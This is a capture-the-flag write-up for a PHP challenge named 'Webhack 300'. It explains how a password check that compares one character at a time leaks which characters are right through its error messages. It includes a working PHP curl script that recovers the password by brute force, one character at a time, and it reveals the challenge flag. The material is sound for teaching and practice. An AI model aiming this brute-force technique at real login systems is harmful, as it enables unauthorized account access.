


# Webhack 300

We were given the source code for a PHP function that handled comparsion between our input and a server's hidden password.


```php
<?php
​
$GLOBALS['wrongpass'] = 'Wrong!'.PHP_EOL;
$GLOBALS['flaganswer'] = 'Right!'.PHP_EOL;
​
function checkpassword($user_supplied_password, $systempass)
{
  // Note: strlen returns NULL when used on arrays
  // Note: strlen returns the number of bytes, not characters
  $login_password_length = strlen($systempass);
  $supplied_password_len = strlen($user_supplied_password);
​
  # Mensagem de erro "palavra pass errada" - nao foi introduzido palavra passe
  // Note: NULL == 0   = 1
  if ($supplied_password_len == 0) {
    echo '1: '.$GLOBALS['wrongpass'];
  }
​
  for ($i = 0; $i < $supplied_password_len; $i++)
  {
    if ($i < $login_password_length) # Validar se a password do utilizador nao é maior que a password do sistema
    {
      if ($user_supplied_password[$i] != $systempass[$i])
      {
        echo "Bailing out on \$i = {$i}".PHP_EOL;
        echo '2: '.$GLOBALS['wrongpass']; # Mensagem de erro "palavra pass errada"
        break;
      }
      else if ($i == ($login_password_length - 1))
      {
        echo $GLOBALS['flaganswer']; # Chegou ao fim da string e os caractares estao todos certos
      }
    }
    else
    {
      echo '3: '.$GLOBALS['wrongpass'];
      break;
    }
  }
}
```

This is the given script, however with a bit of code cleanup, better identation and a few annotations I did when debugging.

The vulnerability here comes from the fact we have a character by character verification system where you only get an error message if the character doesn't match what's in the server, combined with the fact that you can control how many characters you want to verify - as the for cycle uses the supplied password length as a delimitator, not the server password length.

 <br>
This is what you would get if the character verification check failed, the form with an error message

 <br>
This is what you would get if none of the character verification checks failed, a blank page

Because of that, we can start by bruteforcing the first character only by sending a single character in the a-Z 0-9 range. If you send requests with all possible characters, one of these will not print out an error, meaning it's the correct one.

After finding the first character, we repeat the same thing for the next character and so on, until we have sucessfully obtained the entire password.

 <br>
And there we have it! After logging in with that password, you would get the flag: `flag{VULN3R@BLEP@SSW0RD_CH3CK3R}`

Here's the script I wrote to solve this one:

```php
<?php
​
$url = "https://summer2020.ctf.cert.rcts.pt/webhack-300.php";
$cr = curl_init();
$pool = array_merge(range('a', 'z'), range('A', 'Z'), range('0', '9'));
​
// Can't type hint resources
// See: https://bugs.php.net/bug.php?id=71518
function send_request_post($cr, string $url, string $password) : string
{
  $password = urlencode($password);
  curl_setopt($cr, CURLOPT_URL, $url);
  curl_setopt($cr, CURLOPT_POST, 1);
  curl_setopt($cr, CURLOPT_POSTFIELDS, "password={$password}&submit=+Login+");
  curl_setopt($cr, CURLOPT_RETURNTRANSFER, true);
  return curl_exec($cr);
}
​
function wrong(string $response) : bool
{
  return strpos($response, "<font color=\"red\">Password incorrecta!!</font>") !== false;
}
​
$answer = "";
​
while (true)
{
  foreach ($pool as $char)
  {
    $response = send_request_post($cr, $url, $answer.$char);
​
    if (!wrong($response))
    {
      $answer .= $char;
      var_dump($answer);
      break;
    }
​
    // End of password, exit out of both loops
    if ($char == end($pool))
    {
      break 2;
    }
  }
}
​
var_dump($answer);
```
